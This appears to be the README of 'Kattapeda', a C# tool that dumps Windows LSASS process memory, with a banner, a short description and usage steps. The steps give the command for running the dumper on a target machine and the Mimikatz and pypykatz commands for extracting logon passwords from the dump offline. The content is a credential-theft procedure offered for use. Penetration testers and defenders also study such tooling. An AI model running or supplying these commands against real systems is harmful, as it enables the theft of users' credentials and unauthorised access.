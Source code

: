 
██╗  ██╗ █████╗ ████████╗████████╗ █████╗ ██████╗ ███████╗██████╗  █████╗ ");
██║ ██╔╝██╔══██╗╚══██╔══╝╚══██╔══╝██╔══██╗██╔══██╗██╔════╝██╔══██╗██╔══██╗");
█████╔╝ ███████║   ██║      ██║   ███████║██████╔╝█████╗  ██║  ██║███████║");
██╔═██╗ ██╔══██║   ██║      ██║   ██╔══██║██╔═══╝ ██╔══╝  ██║  ██║██╔══██║");
██║  ██╗██║  ██║   ██║      ██║   ██║  ██║██║     ███████╗██████╔╝██║  ██║");
╚═╝  ╚═╝╚═╝  ╚═╝   ╚═╝      ╚═╝   ╚═╝  ╚═╝╚═╝     ╚══════╝╚═════╝ ╚═╝  ╚═╝");

![Version](https://img.shields.io/badge/release-1.0-yellow.svg)
[![License](https://img.shields.io/badge/license-MIT-green.svg)](https://opensource.org/licenses/MIT)

Kattapeda is a very simple LSASS memory dump tool in C# based on Win32 `MiniDumpWriteDump` API. 
The dump file created, can be exploited offline with Mimikatz or Pypykatz.

>[!CAUTION]
> The dump will fail if the memory is LSA protected. Consequently, the created file will be empty. Check the prerequisite before running kattapeda.

#### USAGE
- compile the .cs source code
- on target, execute the program:
`.\kattax64.exe c:\windows\tasks\mini.dmp`
- offline, use pypykatz or mimikatz to loot the content of the lsass memory dump using:
`mimikatz # sekurlsa::minidump lsass.dmp sekurlsa::logonPasswords`
or:
`pypykatz lsa minidump lsass.dmp`

The content of the dumped memory will be written into the file passed as argument. By default, the program uses `c:\windows\tasks\mini.dmp`




